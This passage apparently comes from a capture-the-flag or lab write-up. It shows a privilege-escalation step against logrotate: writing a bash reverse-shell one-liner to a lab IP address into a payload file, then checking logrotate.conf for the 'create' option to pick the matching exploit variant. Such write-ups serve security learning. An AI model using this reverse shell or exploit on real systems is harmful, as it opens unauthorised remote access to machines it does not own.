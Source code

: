     echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload

However, before running the exploit, we need to determine which option `logrotate` uses in `logrotate.conf`.

    grep "create\|compress" /etc/logrotate.conf | grep -v "#"
    
    create

In our case, it is the option: `create`. Therefore we have to use the exploit adapted to this function.
